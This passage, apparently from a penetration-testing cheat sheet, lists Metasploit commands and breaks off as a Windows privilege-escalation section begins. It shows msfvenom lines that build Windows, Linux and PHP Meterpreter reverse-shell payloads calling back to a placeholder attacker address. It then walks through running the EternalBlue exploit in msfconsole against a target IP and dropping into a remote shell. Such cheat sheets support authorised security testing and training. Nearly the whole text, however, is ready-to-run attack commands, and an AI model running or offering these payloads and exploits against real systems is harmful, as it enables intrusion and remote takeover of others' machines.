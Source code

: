 ### Metasploit Framework
*   **`msfvenom`:** Payload creation.
    ```bash
    # Windows Reverse Shell
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o shell.exe

    # Linux Reverse Shell
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f elf -o shell.elf

    # PHP Reverse Shell
    msfvenom -p php/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -o shell.php
    ```
*   **`msfconsole`:** The Metasploit interface.
    ```bash
    # Start Metasploit
    msfconsole

    # Use an exploit module
    use exploit/windows/smb/ms17_010_eternalblue

    # Set required options
    set RHOSTS 192.168.1.105
    set LHOST YOUR_IP
    set PAYLOAD windows/x64/meterpreter/reverse_tcp

    # Run the exploit
    run

    # In a meterpreter session
    meterpreter > getuid
    meterpreter > sysinfo
    meterpreter > shell # To get a standard OS shell
    ```

### Privilege Escalation
*   **Windows:**
    ```cmd
    :: System Information
    systeminfo
    whoami /priv
